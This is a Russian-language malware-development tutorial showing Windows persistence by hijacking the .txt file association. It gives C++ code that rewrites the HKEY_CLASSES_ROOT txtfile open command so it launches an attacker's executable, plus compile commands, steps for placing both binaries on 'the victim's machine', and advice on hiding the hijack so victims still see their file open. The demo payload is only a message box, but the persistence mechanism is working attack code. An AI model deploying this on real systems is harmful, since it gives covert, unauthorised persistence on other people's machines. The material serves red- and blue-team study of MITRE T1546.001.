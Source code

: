 \newpage
\subsection{75. Разработка вредоносного ПО: закрепление (persistence) - часть 9. Перехват ассоциации файлов. Простой пример на C++.}

﷽

![pers](./images/66/2022-08-29_02-25.png){width="80%"}    

Эта статья является результатом моего собственного исследования одного из интересных методов персистентности вредоносного ПО: перехват ассоциации файлов.    

### ассоциация файлов по умолчанию     

Например, при двойном щелчке по файлу `.txt`, он открывается с помощью `notepad.exe`.     

![pers](./images/66/2022-08-29_02-17.png){width="80%"}    

Windows знает, что необходимо использовать `notepad.exe` для доступа к `.txt` файлам, потому что расширение `.txt` (и многие другие) привязано к приложениям, способным открывать такие файлы, в реестре: `HKEY_CLASSES_ROOT`.

Таким образом, можно перехватить ассоциацию файлов по умолчанию, чтобы выполнить вредоносную программу.     

### практический пример    

Давайте попробуем перехватить `.txt`. В этом случае обработчик расширения `.txt` указан в следующем ключе реестра:     

`HKEY_CLASSES_ROOT\\txtfile\\shell\\open\\command`    

Выполним команду:    

```powershell
reg query "HKCR\txtfile\shell\open\command" /s
```

![pers](./images/66/2022-08-29_02-19.png){width="80%"}    

Затем создадим "вредоносное" приложение:     

```cpp
/*
hack.cpp
вредоносное приложение для персистентности в Windows
через перехват ассоциации файлов
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как видите, логика довольно простая: просто всплывающее окно `meow-meow`.    

На следующем этапе мы перехватываем расширение `.txt`, изменяя значение `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` с помощью этого скрипта:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)
  "\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, 
    strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видно из исходного кода, мы просто заменяем `%SystemRoot%\system32\NOTEPAD.EXE %1` на `Z:\2022-08-26-malware-pers-9\hack.exe`.

### демонстрация

Посмотрим, как это работает. Компилируем наш вредоносный код:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-21.png){width="80%"}    

Сгенерированный `hack.exe` необходимо загрузить на машину жертвы.    

Затем компилируем программу, отвечающую за персистентность:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-22.png){width="80%"}    

Сгенерированный `pers.exe` также нужно поместить на машину жертвы.     

Затем просто запускаем:    

```powershell
.\pers.exe
```

![pers](./images/66/2022-08-29_02-21.png){width="80%"}    

Теперь пробуем открыть `.txt` файл, например, двойным кликом по `test.txt`:     

![pers](./images/66/2022-08-29_02-22.png){width="80%"}    

![pers](./images/66/2022-08-29_02-24.png){width="80%"}    

Как видно, "вредоносное ПО" успешно выполняется. Отлично! :)    

Затем выполняем очистку:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

![pers](./images/66/2022-08-29_02-34.png){width="80%"}    

В реальных вредоносных программах было бы хорошей практикой реализовать эту технику немного иначе, чтобы пользователь-жертва по-прежнему мог открывать оригинальный `.txt` файл, но при этом дополнительно запускал вредоносный код.     

Этот метод персистентности используется фреймворком [SILENTTRINITY](https://attack.mitre.org/software/S0692/) и кибершпионской группой [Kimsuky](https://attack.mitre.org/groups/G0094/). Это вредоносное ПО использовалось в кампании 2019 года против государственных агентств Хорватии неустановленными киберпреступниками.       

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)      
[исходный код на Github](https://github.com/cocomelonc/meow/tree/master/2022-08-26-malware-pers-9)       
